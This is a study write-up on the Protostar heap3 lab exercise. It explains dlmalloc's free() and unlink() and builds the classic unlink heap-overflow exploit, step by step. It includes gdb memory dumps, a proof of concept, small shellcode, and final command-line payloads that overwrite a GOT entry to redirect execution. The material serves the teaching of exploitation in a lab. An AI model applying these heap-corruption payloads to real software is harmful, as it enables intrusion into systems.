



# LiveOverflow Binary Exploitation / Memory Corruption

### Heap3 dlmalloc unlink() exploit

High level overview of how free() works, given that we want to free(chunk)

1. We will look at the next chunk after chunk

2. We will see if it is a free chunk and if it is pointing to any other free chunks (doubly linked list data structure)

3. If the next chunk is free and it is pointing to other free chunks, we will unlink the next chunks from the other free chunks 

4. After which, we will then merge the current chunk and the next chunk

After the 3 malloc(32) function calls:

```
(gdb) x/64wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0f0:	0x00000000	0x00000000	0x00000000	0x00000000
```

- Total memory chunk occupies 0x29 (41) bytes derived from 32 + 4 + 4 + 1

After performing 3 strcpy():

```
(gdb) x/64wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x41414141	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x42424242	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x43434343	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0f0:	0x00000000	0x00000000	0x00000000	0x00000000
```

After free(c):

```
(gdb) x/64wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x41414141	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x42424242	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0f0:	0x00000000	0x00000000	0x00000000	0x00000000
```

After free(b):

```
(gdb) x/64wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x41414141	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x0804c050	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0f0:	0x00000000	0x00000000	0x00000000	0x00000000
```

After free(c):

```
(gdb) x/64wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x0804c028	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x0804c050	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0f0:	0x00000000	0x00000000	0x00000000	0x00000000
```

- 2nd and 3rd free() function call returns a pointer (FD) pointing to an address which is the location of the next free memory ready to be allocated. After using the memory allocated for that was for the now-freed *a pointer, the program will use the memory allocated for the now-freed *b pointer since we know its location. This overall creates a linked-list of freed up memory locations in the heap allocatable by malloc().

How the free() function and algorithm works (illustrations):

1. free target chunk and the merge the next free chunk to it

    

2. unlink the free chunk from its next and previous free chunk

    

3. Final output:

    

How the free() function and algorithm works:

- Source code found [here](https://github.com/emeryberger/Malloc-Implementations/blob/master/allocators/ptmalloc/ptmalloc2/malloc.c)

- We first check that the mem to be freed is not null as free(0) has no effect

    ```
    if (mem != 0) {
    ...
    ```

- We then find the true starting address of the allocated memory using mem2chunk(mem). This address accounts for the additional 8 bytes of memory used, in this context it would be: 0x00000000	0x00000029.

    ```
    p = mem2chunk(mem);
    size = chunksize(p);

    check_inuse_chunk(av, p);
    ```

- Next we will look at the chunk size and check if it is less than 80. If it is, update pointers and create linked list of freed up memory which was demonstrated and illustrated above. Our chunk sizes are 32 and hence we need to overflow it so that we do not enter this if block as the exploit requires us to run the unlink() function.

    ```
    if ((unsigned long)(size) <= (unsigned long)(av->max_fast)

        #if TRIM_FASTBINS
        /*
           If TRIM_FASTBINS set, don't place chunks
           bordering top into fastbins
        */
        && (chunk_at_offset(p, size) != av->top)
        #endif
        ) {

      set_fastchunks(av);
      fb = &(av->fastbins[fastbin_index(size)]);
      p->fd = *fb;
      *fb = p;
    }
    ```

- Next we will look at the memory to be freed and check if it that the IS_MMAPED flag is set (the second last bit). Need to ensure that the memory to be freed has its second last bit set to 1 as this is the section of code that we want to execute

    ```
    else if (!chunk_is_mmapped(p)) {
    ...
    ```

- Next we will find the next chunk of allocated memory in the heap along with the size of that next chunk. We can control this since we are able to control the size of the current chunk and the starting address of that chunk given that we can overflow the buffer to set these values when we are executing the unsafe strcpy() function calls.

    ```
    nextchunk = chunk_at_offset(p, size);
    nextsize = chunksize(nextchunk);
    assert(nextsize > 0);
    ```

- Next we will check if the previous chunk of allocated memory is in use by checking the last bit of the size of the current chunk. If it is not in use, then we will "combine" the current chunk with the previous chunk via the unlink() function. PrevSize refers to the 4 bytes of empty buffer before the memory location holding the size of an allocated memory chunk

    ```
    if (!prev_inuse(p)) {
        prevsize = p->prev_size;
        size += prevsize;
        p = chunk_at_offset(p, -((long) prevsize));
        unlink(p, bck, fwd);
    }
    ```

- How unlink() works is that we will take the current memory chunk and get the FD pointer and the BK pointer. Memory location of FD pointer would be P + 8 (p->fd) while the memory location of the BK pointer is P + 12 (p->bk). Then, we would write the memory address that FD+12 (FD->bk) is pointing to with the memory address of BK. We would also write the memory address that BK+8 (BK->fd) is pointing to, with the memory address of FD.

    ```
    // | prevsize | size | FD | BK |

    #define unlink(P, BK, FD) {                                            \
      FD = P->fd;                                                          \
      BK = P->bk;                                                          \
      FD->bk = BK;                                                         \
      BK->fd = FD;                                                         \
    }
    ```

- What we can do is that we can write the memory location of a function in the GOT table with the memory address of the winner() function. However, even though the GOT table is writeable, code segment is not. Hence when we reverse the process and write the memory address of the winner() with the memory address of a function in the GOT table, we would get a segmentation fault.

- To overcome this, instead of writing to/from the code segment directly, we can write to/from the heap as the heap is writeable. We can store shellcode on the heap which makes system calls to indirectly call the winner function, which would then be written to the address of the function in the GOT table when we call unlink(). After which, when we write a value from the GOT table to the heap, we can just point it to a random part of the heap which would not crash our program

- Next we check that the address of the next chunk is not at the top/the "wilderness" which in our case is not as we are setting the size of our chunk to 100. Hence, to prevent us from crashing, we must handle this case as well

    ```
    if (nextchunk != av->top) {
    ...
    ```

- We then check if the next chunk is in use and if it is not in use, then we will unlink the next chunk

    ```
    /* get and clear inuse bit */
    nextinuse = inuse_bit_at_offset(nextchunk, nextsize);

    /* consolidate forward */
    if (!nextinuse) {
        unlink(nextchunk, bck, fwd);
        size += nextsize;
    } else
        clear_inuse_bit_at_offset(nextchunk, 0);
    ```

- Then, we can choose to handle either the if-block or the else-block

    1. if-block: we can unset the in-use flag of the memory location determining whether the next chunk from the current chunk is in use or not (this will be in the next chunk of the next chunk, as the next chunk of the next chunk will determine if the previous chunk is in use or not). If we do so, then we will need to add the bk and fd addresses pointing to anywhere on the heap for the next chunk to prevent the program from crashing.

        ```
        (gdb) set {int}0x804c0b8=0x10
        (gdb) set {int}0x804c0c8=0x10        // determines whether the next chunk from the current chunk is in use or not
        (gdb) set {int}0x804c0bc=0x804c080
        (gdb) set {int}0x804c0c0=0x804c090
        ```

    2. else-block: we can set the in-use flag of the memory location determining whether the next chunk from the current chunk is in use or not (this will be in the next chunk of the next chunk, as the next chunk of the next chunk will determine if the previous chunk is in use or not). If we do so, then we do not need to handle the unlink() function call in the if-block.

        ```
        (gdb) set {int}0x804c0b8=0x10
        (gdb) set {int}0x804c0c8=0x11       // determines whether the next chunk from the current chunk is in use or not
        ```

- The rest of the program after this should not be so important... for now :)

- Initial Proof-of-Concept (set breakpoint at the first free() function call):

    ```
    (gdb) set {int}0x804c048=0x804b11c       // GOT table function - 12
    (gdb) set {int}0x804c04C=0x804c010       // Address to overwrite the GOT table function with
    (gdb) set {int}0x804c044=0x11            // doesn't matter if it is 0x10 or 0x11
    (gdb) set {int}0x804c050=0x10            // *c
    (gdb) set {int}0x804c054=100             // *c

    [HANDLE IF-ELSE BLOCK FOR CONSOLIDATING NEXT CHUNK FROM CURRENT CHUNK]

    (gdb) set {int}0x804c010=0x048864b8
    (gdb) set {int}0x804c014=0xd0ff08
    ```

- How this PoC works is that we will be using the FIRST free() function call and exploit the vulnerable dlmalloc unlink() function

    1. We set the size portion of the memory chunk allocated to the *c pointer to 0x64 (100). Allowing us to skip the first if-block for the _int_free() function call which checks for eligibility to place chunk on fastbin

    2. As the second last bit is not set (100), we will enter the next else-if block. Since the last bit is not set as well (100), we will unlink the current chunk and the previous chunk. The starting address of the previous chunk is calculated by subtracting the size of the previous chunk from the real starting address of the current chunk (with the prevsize and size). 

    3. To perform the exploit, we will set the FD pointer to the memory address of the function in the global offset table that we want to overwrite - 12 as we need to account for the `-> bk` in FD->bk = BK. We will set the BK pointer to a memory address on the heap which we want to redirect code execution to. Note that this will all be in the PREVIOUS CHUNK from the current chunk at the *c pointer.

    4. As we are going to set the size of the memory chunk of the *c pointer to 100, it exceeds the wilderness at 0x804c07c. Hence we will need to handle that if-block which essentially checks if the next memory chunk is in use or not.

        ```
        0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
        ```

    5. Depending on whether the next memory chunk is in use or not, we will have to add the BK and FD pointer address of the next memory chunk.

    6. Once we have successfully obtain code redirection and execution, we can use shellcode to call our winner() function.

        ```
        (gdb) c
        Continuing.
        
        Program received signal SIGSEGV, Segmentation fault.
        0x0804c04b in ?? ()
        ```
    
    7. Can either use one of the following and encode it [here](https://defuse.ca/online-x86-assembler.htm#disassembly):

        ```
        mov eax, 0x8048864
        call eax
        
        push 0x08048864
        ret
        ```

    8. Other information:

        ```
        (gdb) x winner
        0x8048864 <winner>:	0x83e58955
        
        (gdb) disassemble 0x8048790
        Dump of assembler code for function puts@plt:
        0x08048790 <puts@plt+0>:	jmp    *0x804b128
        0x08048796 <puts@plt+6>:	push   $0x68
        0x0804879b <puts@plt+11>:	jmp    0x80486b0
        
        (gdb) disassemble 0x804b128
        Dump of assembler code for function _GLOBAL_OFFSET_TABLE_:
        0x0804b0e8 <_GLOBAL_OFFSET_TABLE_+0>:	adc    $0xb0,%al
        ```

- Proof-of-Concept won't work as it contains null bytes which will be ignored by strcpy() when we attempt to overflow the buffer with the above values. Solution? Use 0xfffffffc to get negative values! 

- For our final working exploit:

    1. We can set the size of the *c memory chunk to 0x65 to bypass the first if-block at line 4093, enter the else-if block at line 4114 and skip the if-block at line 4120. We will exploit strcpy(*b) for this:

        `python -c "print ('B'* 36 + '\x65')"` (36 derived from 32 byte char buffer + 4 byte to overflow to the prevsize of *c chunk before finally overwriting the size of *c chunk with 0x65)

    2. We obtain the address of the next chunk at 0x804c0b4 and the size of the next chunk, before entering the if-block at line 4127

    3. To enter the if-block at line 4132, we need to ensure the the next chunk is not in use. To do so, we need to check that the last bit of the size of the next next chunk is not set. To do this, we would need to ensre that the size of the next chunk is 0xfffffffc to get a -4 when we add the size of the next chunk and the address of the next chunk when we run inuse_bit_at_offset (see below for more explanation). After doing so we can then run the unlink() function call as in line 4133 on the next chunk with reference to memory chunk at *c. We need to set the fd and bk pointers for the next chunk appropriately as in our initial exploit so that we can overwrite the GOT table and obtain code execution. Instead of storing and calling our code at 0x0804c010, we will call store and call our code at 0x0804c014. This is because when we run free(*a), we can expect for it to mangle with out exploit stored near to the memory location of *a. We will exploit strcpy(*c) for this:

        `python -c "print('C'*92+'\xcf\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x14\xc0\x04\x08')"` (92 is derived from 100 - 8, 4 bytes from the size and 4 bytes prevsize memory addresses)

    4. Once we obtain code redirection and execution by overwriting the GOT table, we can insert our shellcode into our heap at 0x0804c014. We can exploit strcpy(*a) for this:

        `python -c "print('A'*12+'\xb8\x64\x88\x04\x08\xff\xd0')"`

- Final Answers:

    `/opt/protostar/bin/heap3 $(python -c "print('A'*12+'\xb8\x64\x88\x04\x08\xff\xd0')") $(python -c "print('B'*36+'\x65')") $(python -c "print('C'*88+'D'*4+'\xfe\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x14\xc0\x04\x08')")`

    `/opt/protostar/bin/heap3 $(python -c "print('A'*12+'\xb8\x64\x88\x04\x08\xff\xd0')") $(python -c "print('B'*36+'\x65')") $(python -c "print('C'*88+'D'*4+'\xfc\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x14\xc0\x04\x08')")`

    `/opt/protostar/bin/heap3 $(python -c "print('A'*12+'\xb8\x64\x88\x04\x08\xff\xd0')") $(python -c "print('B'*36+'\x65')") $(python -c "print('C'*88+'D'*4+'\xcc\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x14\xc0\x04\x08')")`

    - The 4 bytes before the fffffffc fffffffc fd bk chunk can be anything as long as it does not contain null bytes

    - The first fffffffc within fffffffc fffffffc fd bk chunk can be anything as long as it does not contain null bytes and the last bit is 0

- How we check if the next chunk is in used or not (i.e. calculation of the nextinuse variable)? Using the function inuse_bit_at_offset:

    ```
    nextinuse = inuse_bit_at_offset(nextchunk, nextsize); // find if the next chunk is in use or not

    /* size field is or'ed with PREV_INUSE when previous adjacent chunk in use */
    #define PREV_INUSE 0x1
    
    /* check/set/clear inuse bits in known places */
    #define inuse_bit_at_offset(p, s)\
     (((mchunkptr)(((char*)(p)) + (s)))->size & PREV_INUSE)
    ```

    - To know if the next chunk is in use or not, we need to look at the size of the next next chunk and see if the last bit is set

    - 804c0b4 + fffffffc = 10804c0b0 but is 32 bit so we only see 804c0b0

    - So the next next chunk is at 804c0b0 which will be ... 0xfffffffc 0xfffffffc fd

    - Then we look at the size of this chunk which is stored in 0xfffffffc and we observe that the last bit is not set 0xc = 1100 in bits

    - In theory then 0xe should work as well

- Data structure of a malloc chunk:

    ```
    struct malloc_chunk {

      INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
      INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */
    
      struct malloc_chunk* fd;         /* double links -- used only if free. */
      struct malloc_chunk* bk;
    };
    ```

### References

[Voodoo malloc tricks & Once upon a free() articles](http://phrack.org/issues/57/8.html)

[LiveOverflow explanation of free() and unlink()](https://www.youtube.com/watch?v=HWhzH--89UQ&t=140s)

[Writeup on Heap3 by airman604](https://airman604.medium.com/protostar-heap-3-walkthrough-56d9334bcd13)
